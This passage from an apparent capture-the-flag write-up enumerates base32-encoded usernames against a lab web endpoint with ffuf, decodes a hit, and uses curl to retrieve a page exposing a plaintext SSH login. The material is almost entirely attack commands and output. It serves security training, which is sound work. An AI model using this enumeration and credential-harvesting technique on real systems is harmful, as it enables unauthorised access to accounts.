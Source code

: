 `for i in $(cat username_clean.txt); do echo -n $i | base32 >> username_base32.txt; done`

```bash
OJXW65A=
MNUGCZBNMNUGK4TSPE======
NVXWY3DZFVWWS3DL
ONQW2LLTOBZGS3TLNRSXG===
MJXWELLCN5RGC===
NZXXI43VOM======
IFSG22LO
```

`ffuf -u 'http://cherryontop.thm/content.php?facts=IDNUMBER&user=USER' -w <(seq 1 100):IDNUMBER -w username_base32.txt:USER -fr "Error" -mc all -t 100 -fw 754 -fs 2499,2519,2514,2523,2479,2498,2487,2486`

```bash
[Status: 200, Size: 2531, Words: 765, Lines: 63, Duration: 317ms]
    * IDNUMBER: 64
    * USER: MNUGCZBNMNUGK4TSPE======

[Status: 200, Size: 2572, Words: 771, Lines: 63, Duration: 318ms]
    * IDNUMBER: 50
    * USER: NVXWY3DZFVWWS3DL

[Status: 200, Size: 2558, Words: 764, Lines: 63, Duration: 322ms]
    * IDNUMBER: 43
    * USER: ONQW2LLTOBZGS3TLNRSXG===

[Status: 200, Size: 2558, Words: 769, Lines: 63, Duration: 318ms]
    * IDNUMBER: 20
    * USER: MJXWELLCN5RGC===

[Status: 200, Size: 2558, Words: 764, Lines: 63, Duration: 318ms]
    * IDNUMBER: 43
    * USER: IFSG22LO
```

`echo 'ONQW2LLTOBZGS3TLNRSXG===' | base32 -d`

```bash
sam-sprinkles
```

`curl -iLX GET 'http://cherryontop.thm/content.php?facts=43&user=ONQW2LLTOBZGS3TLNRSXG==='`

```bash
[REDACTED] - MORE

<b>My secret web hideout in case I forget my ssh credentials again<br>sam-sprinkles:SammyInMiami43</b>            </div>

[REDACTED] - MORE
```

> **SSH Connection for Other User**
> 
